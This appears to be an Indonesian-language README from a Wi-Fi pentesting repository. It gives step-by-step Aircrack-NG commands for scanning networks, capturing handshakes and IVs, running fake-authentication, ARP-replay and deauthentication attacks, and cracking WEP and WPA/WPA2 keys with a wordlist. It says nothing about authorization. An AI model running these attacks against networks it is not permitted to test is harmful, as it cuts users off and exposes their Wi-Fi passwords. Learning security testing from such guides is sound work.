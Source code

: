 # Aircrack-NG

![Aircrack-NG](https://github.com/fixploit03/Pentest-WiFi/blob/main/tools/aircrack-ng/img/aircrack-ng.jpg)

## Instalasi

Kali Linux:

1. Menggunakan packet manager (`apt`):

   ```
   sudo apt-get update
   sudo apt-get install aircrack-ng
   ```

2. Melalui compile dari source:
   
   ```
   sudo apt-get update
   sudo apt-get install build-essential autoconf automake libtool pkg-config libnl-3-dev libnl-genl-3-dev libssl-dev ethtool shtool rfkill zlib1g-dev libpcap-dev libsqlite3-dev libpcre2-dev libhwloc-dev libcmocka-dev hostapd wpasupplicant tcpdump screen iw usbutils expect
   git clone https://github.com/aircrack-ng/aircrack-ng
   cd aircrack-ng
   autoreconf -i
   ./configure --with-experimental
   make
   sudo make install
   sudo ldconfig
   ```

## Setup Adapter Wi-Fi

1. Pasang adapter Wi-Fi ke laptop/PC.
2. Pada aplikasi VirtualBox klik tab `Devices` -> `USB` -> `Jenis/merek`.
3. Pastikan checkbox nya sudah tercentang.
4. Buka terminal.
5. Ketikkan `iwconfig`, pastikan nama interface `wlan0` muncul.
6. Kalau sudah muncul, aktifkan mode monitor menggunakan:

   ```
   sudo airmon-ng check kill
   sudo airmon-ng start wlan0
   ```
7. Cek kembali menggunakan `iwconfig` apakah mode interfacenya sudah berubah menjadi mode `Monitor`.
8. Cek packet injection menggunakan:

   ```
   sudo aireplay-ng --test wlan0
   ```

## Penggunaan

**1. Scan Wi-Fi:**

1. Scan Semua Jaringan (Tanpa Filter):

   ```
   sudo airodump-ng [interface]
   ```
2. Filter berdasarkan Enkripsi:
   - WEP:

      ```
      sudo airodump-ng --encrypt WEP [interface]
      ```
   - WPA/WPA2-PSK

      ```
      sudo airodump-ng --encrypt WPA,WPA2 [interface]
      ```

**2. Capture Handshake/IVs:**

1. WEP:

   ```
   sudo airodump-ng --bssid [bssid] --channel [channel] --encrypt WEP --ivs --write [output] [interface]
   ```
2. WPA/WPA2-PSK:

   ```
   sudo airodump-ng --bssid [bssid] --channel [channel] --encrypt WPA,WPA2 --write [output] [interface]
   ```

**3. Jalankan Serangan:**

1. WEP:
   1. Buat autentikasi palsu ke AP target:

      ```
      sudo aireplay-ng --fakeauth 0 -a [bssid] -h [mac_interface] [interface]
      ```
   2. Menangkap dan me-replay paket ARP untuk menghasilkan traffic:

      ```
      sudo aireplay-ng --arpreplay -b [bssid] -h [mac_interface] [interface]
      ```
   3. Tunggu hingga IVs terkumpul cukup banyak.
      - Minimal sekitar 40.000 - 85.000 IVs untuk WEP 64-bit
      - Minimal sekitar 85.000 - 150.000 IVs untuk WEP 128-bit
2. WPA/WPA2-PSK:
   1. Putuskan koneksi client menggunakan Deauth Attack:

      ```
      sudo aireplay-ng --deauth [jumlah] -a [bssid] [interface]
      ```
      
      > **Catatan:**
      > - Kalau ingin deauth client tertentu gunakan opsi `-c [mac_client]` setelah opsi `-a [bssid]`.
      > - Kalau ingin deauth terus-menerus tanpa henti ganti `[jumlah]` dengan `0`.
   2. Tunggu hingga handshake tertangkap.
      - Lihat notifikasi `WPA handshake: [BSSID]` di `airodump-ng`.
        
**4. Crack Handshake/IVs:**

1. WEP:

   ```
   aircrack-ng -a 1 -b [bssid] [file_capture]
   ```
2. WPA/WPA2-PSK:

   ```
   aircrack-ng -a 2 -b [bssid] [file_capture] -w [wordlist]
   ```
   
## Catatan Penting

1. WEP:
   - Agar serangan ARP Replay berhasil, minimal harus ada satu klien yang sedang terhubung ke Access Point (AP).
   - Tanpa adanya klien yang terhubung, tidak ada traffic ARP yang dapat ditangkap dan di-replay, sehingga serangan kemungkinan besar akan gagal.
2. WPA/WPA2-PSK:
   - Untuk melakukan serangan Deauthentication dan menangkap 4-way handshake, diperlukan minimal satu klien yang terhubung ke jaringan.
   - Jika tidak ada klien yang terhubung, tidak ada target yang dapat di-deauth, sehingga handshake tidak akan berhasil didapatkan.

## Video Demonstrasi

1. WEP:  
   [https://youtu.be/L1kuud_8Nq4?si=0s5uupcoe9l8KmgP](https://youtu.be/L1kuud_8Nq4?si=0s5uupcoe9l8KmgP)
2. WPA/WPA2-PSK:  
   [https://youtu.be/ts5spqeq1Ew?si=OIiFeEqNsAOT4RZ6](https://youtu.be/ts5spqeq1Ew?si=OIiFeEqNsAOT4RZ6)
